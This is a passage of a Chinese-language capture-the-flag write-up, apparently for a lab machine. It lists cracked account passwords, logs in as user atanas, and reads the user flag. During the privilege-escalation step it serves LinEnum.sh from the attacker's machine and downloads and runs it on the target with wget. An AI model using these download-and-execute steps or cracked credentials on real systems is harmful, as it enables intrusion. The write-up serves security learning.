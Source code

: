 | 用户名 | 密码 |
|---|---|
| Administrator | f16tomcat! |
| atanas | Password123! |
| krbtgt | 破解失败 |

`su atanas`

用`atanas`作为用户名，`f16tomcat!`作为密码，成功获得atanas用户权限

获得user flag`cat ~/user.txt`

## root提权
kali：`python -m SimpleHTTPServer 80`

远程shell: 
```
cd /tmp
wget http://10.10.14.5:80/LinEnum.sh
chmod a+x LinEnum.sh; ./LinEnum.sh
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/3.PNG)

find . -name "root.txt" 2>/dev/null
未找到

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/4.PNG)
